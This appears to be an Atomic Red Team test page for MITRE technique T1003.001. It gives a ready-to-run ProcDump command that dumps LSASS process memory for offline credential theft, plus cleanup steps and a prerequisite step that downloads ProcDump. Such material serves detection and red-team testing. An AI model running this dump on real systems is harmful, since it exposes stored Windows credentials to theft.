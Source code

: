 ```yaml
---
tags: [T1003_001, atomic_test]
filename: "[[T1003.001 - OS Credential Dumping- LSASS Memory]]"
---
```

# T1003.001 - OS Credential Dumping: LSASS Memory

## Atomic Test #1 - Dump LSASS.exe Memory using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump.

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 0be2230c-9ab3-4ac2-8826-3199b9a0ebf8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -ma lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
```